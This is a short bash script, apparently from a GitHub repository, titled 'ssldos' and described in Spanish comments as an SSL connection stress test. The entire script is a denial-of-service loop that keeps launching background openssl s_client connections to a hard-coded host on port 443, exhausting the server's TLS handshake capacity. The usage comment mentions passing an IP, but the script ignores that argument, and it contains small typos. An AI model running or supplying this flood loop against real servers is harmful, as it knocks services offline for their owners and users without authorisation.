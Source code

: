 # ssldos

#!/bin/bash
# TEST DE STRESS CONEXIONES SSL
Antonio Taboada 30/12/2016
# chmod *x ssldos.sh
# ./ssldos.sh IP
# Para parar Control + C

while true; do

        openssl s_client -connect web.hackingyseguridad.com:443 2>/dev/null 1>/dev/nul&

done
